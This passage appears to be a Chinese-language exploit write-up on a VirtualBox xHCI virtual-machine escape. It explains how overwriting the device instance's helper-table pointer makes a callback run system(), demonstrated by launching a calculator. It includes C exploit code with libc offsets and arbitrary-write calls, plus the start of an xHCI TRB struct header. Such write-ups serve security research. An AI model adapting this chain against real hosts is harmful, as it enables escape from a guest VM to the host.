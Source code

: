 

## exploit

接下来就是考虑写哪里的问题了，前面我们注意到`PDMDevHlpPCIPhysWriteMeta`调用`pDevIns->pHlpR3->pfnPCIPhysWrite`，也就是会调用`pDevIns+0x10`处指针指向的跳表函数，且函数调用的第一个参数都是`pDevIns`。`pDevIns`结构体的前0x10字节为一些`u32Version`、`iInstance`之类的一些不重要的值，因此把“/usr/bin/xcalc”写进去也不会报错。

所以我们将`system`指针写到`rw_base`处，将“/usr/bin/xcalc”写到`pDevIns`开头0x10字节，紧接着覆盖`pDevIns+0x10`处的指针为`rw_base-0x768`（`pfnPCIPhysWrite`在跳表中的偏移）。当我们调用`PDMDevHlpPCIPhysReadMeta`写完数据后，紧接着后面`xhciR3WriteEvent - PDMDevHlpPCIPhysWriteMeta`就会调用`pDevIns->pHlpR3->pfnPCIPhysWrite`触发`system`执行。

但调试过程中发现程序提前崩溃在了0x2db8a3的地方，这个地方在`xhciR3WriteEvent - PDMDevHlpCritSectEnter`，调用的是`pDevIns->pHlpR3->pfnCritSectEnterDebug`，所以我们将偏移改为`0x898`，成功弹出计算器。

```python
    /* exploit */
    uint64_t system_addr = libc_base + 0x4ebf0;
    memset(buf, 0, 0x100);
    *(uint64_t *)buf = system_addr;
    abwrite(buf, 0, 8);

    char *cmd = "/usr/bin/xcalc";
    memset(buf, 0, 0x100);
    memcpy(buf, cmd, strlen(cmd));
    //*(uint64_t *)(buf + 0x10) = rw_base-0x768; // fake pDevIns->CTX_SUFF(pHlp)->pfnPCIPhysWrite
    *(uint64_t *)(buf + 0x10) = rw_base-0x898; // fake pDevIns->CTX_SUFF(pHlp)->pfnCritSectEnter
    abwrite(buf, pDevIns-rw_base, 0x18);
```



# Exp

vbox.exp.h

```c
/** Address Device Command TRB. */
typedef struct sXHCI_TRB_ADR {
    uint64_t    ctx_ptr;        /**< Input Context pointer. */
    uint32_t    resvd0;
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd1  :  8;
    uint32_t    bsr     :  1;   /**< Block Set Address Request. */
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd2  :  8;
    uint32_t    slot_id :  8;   /**< Slot ID. */
} XHCI_TRB_ADR;

typedef struct sXHCI_TRB_G {
    uint32_t    resvd0;
    uint32_t    resvd1;
    uint32_t    resvd2  : 24;
    uint32_t    cc      :  8;   /**< Completion Code. */
    uint32_t    cycle   :  1;   /**< Cycle bit. */
    uint32_t    resvd3  :  9;
    uint32_t    type    :  6;   /**< TRB Type. */
    uint32_t    resvd4  : 16;
} XHCI_TRB_G;

typedef union sXHCI_COMMAND_TRB {
    XHCI_TRB_ADR    adr;
    XHCI_TRB_G      gen;
} XHCI_COMMAND_TRB;

/** @def RT_BIT
```